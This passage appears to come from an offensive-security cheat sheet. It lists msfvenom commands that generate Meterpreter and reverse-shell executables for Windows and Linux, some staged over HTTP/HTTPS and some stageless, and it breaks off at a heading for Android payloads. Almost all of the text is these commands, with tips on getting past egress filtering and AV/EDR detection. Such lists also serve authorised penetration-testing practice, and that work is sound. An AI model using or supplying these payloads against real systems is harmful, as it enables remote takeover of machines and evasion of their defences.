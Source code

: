 ## Additional payload families (expanded coverage)

> Replace placeholders (e.g., `<IP>`, `<PORT>`, `<APP_NAME>`) before running.

### HTTP / HTTPS Stagers (HTTP(S) staged payloads)

- **Windows Meterpreter — staged over HTTP**
    

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=<IP> LPORT=<PORT> -f exe -o meter_http.exe
```

- **Windows Meterpreter — staged over HTTPS**
    

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -f exe -o meter_https.exe
```

- **Linux / Generic HTTP stager (if available)**
    

```bash
msfvenom -p linux/x86/meterpreter/reverse_http LHOST=<IP> LPORT=<PORT> -f elf -o meter_http.elf
```

**Notes:**

- HTTP(S) stagers often require handler setup with `exploit/multi/handler` and `set payload` to the same HTTP(S) payload.
    
- HTTPS helps with egress filtering and network inspection bypass (if certs/trust allowed).
    

---

### Stageless / Single-stage payloads (less handler complexity)

- **Windows (stageless) — generic example**
    

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell_x64.exe
```

- **Linux (stageless)**
    

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell_x64.elf
```

**Notes:** Stageless is simpler but larger and sometimes easier for AV/EDR to detect.

---

### Android (APK / Meterpreter / Shell)

- **Android Meterpreter (reverse TCP):**
    